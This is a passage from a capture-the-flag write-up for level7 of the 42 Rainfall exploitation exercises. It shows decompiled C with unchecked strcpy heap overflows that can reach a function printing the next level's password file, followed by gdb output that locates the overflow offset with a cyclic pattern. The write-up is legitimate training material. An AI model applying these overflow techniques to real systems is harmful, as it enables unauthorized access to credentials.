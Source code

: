 ```c
   v1->field_0 = 1;
   v5 = malloc(8);
   v1->field_4 = v5;
   v6 = malloc(8);
   v0 = &v6[0];
   v0->field_0 = 2;
   v7 = malloc(8);
   v0->field_4 = v7;
   strcpy(v1->field_4, *((int *)(*((int *)&v3) + 4)));
   strcpy(v0->field_4, *((int *)(*((int *)&v3) + 8)));
   v8 = fopen("/home/user/level8/.pass", "r");
   fgets(&c, 68, v8);
   puts("~~");
   return 0;
}

// target function cuz of the c hold the buffer in the main after reading the password
int m()
{
    unsigned int v0;  // [sp-0x18]
    unsigned int v1;  // [sp-0x14]

    v1 = time(NULL);
    v0 = &c;
    return printf("%s - %d\n");
}
```


### Finding the Overflow Offset
Using a cyclic pattern:
```
┌──(kali㉿kali)-[~/42-Rainfall/level7]
└─$ cyclic 100          
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
                                                                                                                     
```
Let's execute it.
```
(gdb) r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa


Program received signal SIGSEGV, Segmentation fault.
0xb7eb8b59 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers 
eax            0x61616166       1633771878
ecx            0xbffff8a4       -1073743708
edx            0x61616166       1633771878
ebx            0xbffff8b0       -1073743696
esp            0xbffff634       0xbffff634
ebp            0xbffff668       0xbffff668
esi            0x0      0
edi            0x61616166       1633771878
eip            0xb7eb8b59       0xb7eb8b59
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```